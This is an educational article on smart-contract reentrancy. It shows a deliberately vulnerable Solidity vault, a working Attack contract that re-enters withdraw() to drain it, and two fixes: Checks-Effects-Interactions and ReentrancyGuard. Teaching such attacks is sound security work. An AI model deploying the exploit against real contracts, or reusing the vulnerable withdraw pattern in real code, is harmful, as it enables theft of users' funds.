

Smart contract security remains one of the most critical challenges in decentralized finance (DeFi). Among the various attack vectors, **Reentrancy** is historically the most devastating, responsible for the famous DAO hack in 2016 and numerous high-profile exploits since then. 

In this article, we'll examine how reentrancy works, analyze a vulnerable Solidity contract, walk through an exploit scenario, and outline the industry-standard solutions to prevent it.

---

## What is Reentrancy?

A reentrancy attack occurs when a vulnerable contract sends funds or interacts with an untrusted external contract *before* updating its internal state (like user balances). 

If the external contract is a malicious actor, it can re-enter the calling contract by calling the withdrawal function again. Because the calling contract hasn't updated its balance state yet, it will allow the second withdrawal, repeating the process until the contract is drained of all funds.



---

## A Vulnerable Solidity Contract

Below is a classic example of a vulnerable vault contract. Study the `withdraw()` function closely.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract VulnerableVault {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 bal = balances[msg.sender];
        require(bal > 0, "Insufficient balance");

        // Vulnerable: sending funds BEFORE updating state
        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        // State update happens here (too late!)
        balances[msg.sender] = 0;
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

### The Flaw
The vulnerability lies in this block:
1. It reads the balance `balances[msg.sender]`.
2. It sends the Ether using `msg.sender.call{value: bal}("")`. This transfers control flow to the sender.
3. It resets the balance to `0` **after** the external call returns.

---

## The Exploit Contract

An attacker would deploy an exploit contract that implements a `receive()` or `fallback()` function. This function intercepts the incoming Ether and immediately calls `withdraw()` again before the balance is reset.

```solidity
contract Attack {
    VulnerableVault public vault;

    constructor(address _vaultAddress) {
        vault = VulnerableVault(_vaultAddress);
    }

    // Fallback is called when Vault sends Ether
    receive() external payable {
        if (address(vault).balance >= 1 ether) {
            vault.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Need 1 ETH to attack");
        vault.deposit{value: 1 ether}();
        vault.withdraw();
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

---

## How to Prevent Reentrancy

### 1. Checks-Effects-Interactions Pattern
The most robust and zero-gas cost solution is to re-order your code to follow the **Checks-Effects-Interactions** pattern.
* **Checks**: Run all validation tests (`require`, modifiers).
* **Effects**: Modify internal contract state (update balances, emit events).
* **Interactions**: Perform external calls (send ETH, call other contracts).

Here is the secure version of the withdraw function:

```solidity
function withdraw() public {
    // 1. Checks
    uint256 bal = balances[msg.sender];
    require(bal > 0, "Insufficient balance");

    // 2. Effects
    balances[msg.sender] = 0;

    // 3. Interactions
    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");
}
```

### 2. ReentrancyGuard Mutex
You can also use OpenZeppelin's `ReentrancyGuard` which provides the `nonReentrant` modifier. This modifier uses a simple boolean flag (mutex) to prevent recursive calls to a function.

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureVault is ReentrancyGuard {
    // ...
    function withdraw() public nonReentrant {
        uint256 bal = balances[msg.sender];
        require(bal > 0, "Insufficient balance");
        
        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");
        
        balances[msg.sender] = 0;
    }
}
```

---

## Conclusion

While modern frameworks and static analysis tools like **Slither** or **Mythril** flag basic reentrancy vulnerabilities automatically, understanding control flow remains crucial. Always structure your Solidity code with the **Checks-Effects-Interactions** model to write secure and gas-efficient smart contracts.
